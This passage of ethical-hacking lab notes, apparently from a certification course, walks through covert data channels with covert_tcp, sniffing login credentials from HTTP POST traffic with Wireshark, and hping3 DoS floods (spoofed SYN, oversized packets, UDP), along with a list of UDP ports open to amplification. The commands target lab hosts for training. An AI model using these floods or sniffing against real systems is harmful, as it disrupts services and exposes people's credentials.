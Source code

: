         File->Ctrl+L
        smb://[IP]
        copy and paste covert_tcp.c
        cc -o covert_tcp covert_tcp.c
        ./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt
        Tcpdump captures no packets
    Attacker
        ./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt
        Wireshark (message string being send in individual packet)

### Module 08: Sniffing
    Lab2-Task1: Password Sniffing using Wireshark
    Attacker
        Wireshark
    Target
        www.moviescope.com
        Login
    Attacker
        Stop capture
        File-&gt;Save as
        Filter: http.request.method==POST
        RDP log in Target
        service
        start Remote Packet Capture Protocol v.0 (experimental)
        Log off Target
        Wireshark-&gt;Capture options-&gt;Manage Interface-&gt;Remote Interfaces
        Add a remote host and its interface
        Fill info
    Target
        Log in
        Browse website and log in
    Attacker
        Get packets
### Module 10: Denial-of-Service
    Lab1-Task2: Perform a DoS Attack on a Target Host using hping3
    Target:
        Wireshark-&gt;Ethernet
    Attacker
        hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood
            -S: Set the SYN flag
            -a: Spoof the IP address
            -p: Specify the destination port
            --flood: Send a huge number of packets
    Target
        Check wireshark
    Attacker (Perform PoD)
        hping3 -d 65538 -S -p 21 –flood [Target IP]
            -d: Specify data size
            -S: Set the SYN flag
    Attacker (Perform UDP application layer flood attack)
        nmap -p 139 10.10.10.19 (check service)
        hping3 -2 -p 139 –flood [IP]
            -2: Specify UDP mode
    Other UDP-based applications and their ports
        CharGen UDP Port 19
        SNMPv2 UDP Port 161
        QOTD UDP Port 17
        RPC UDP Port 135
        SSDP UDP Port 1900
        CLDAP UDP Port 389
        TFTP UDP Port 69